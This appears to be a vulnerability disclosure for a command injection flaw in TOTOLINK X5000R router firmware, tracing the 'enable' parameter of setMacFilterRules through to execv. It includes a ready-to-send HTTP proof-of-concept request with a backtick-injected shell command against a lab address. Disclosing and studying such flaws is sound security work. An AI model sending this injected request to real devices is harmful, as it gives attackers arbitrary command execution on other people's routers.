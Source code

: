 ### Overview:

Affected Device: totolink X5000R

Affected Firmware Version: V9.1.0cu.2300_B20230112

Vulnerability: command injection, leading to arbitrary command execution

Firmware Download Link: [https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip](https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip)

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)

![](Pasted%20image%2020231128164123.png)

### Vulnerability:

This vulnerability is a Remote Code Execution (RCE) that allows attackers to make arbitrary command execution

The vulnerability is located in the function `sub_4129C0` within `cstecgi.cgi`, also known as `setMacFilterRules`.
![](Pasted%20image%2020231128231635.png)
![](Pasted%20image%2020231128231615.png)


The function uses `Uci_Set_Str`, which passes the parameter `enable` as the fourth argument. In `libcscommon.so`,it can be observed that `Uci_Set_Str` calls `snprintf` to format our `param_4` into the string `uci -c %s set ....` and passes the string to the `CsteSystem` function,which will eventually be called by `execv`.

![](execv.png)

therefore , by controlling parameter among `enable, mode` , we can finally make an arbitrary command execution

### POC:
To reproduce the vulnerability, you can use the actual device or simulate it using qemu. The following POC can be used:

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 119
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"addEffect":"0","enable":"`id > /1.txt;`","topicurl":"setMacFilterRules","token":"00000000000000000000000000000000"}
~~~

(tips:if you use qemu emulation ur likely to patch a few places to work normally)
### Impact:

though there is an error msg , the command has indeed been executed

![](Pasted%20image%2020231128231930.png)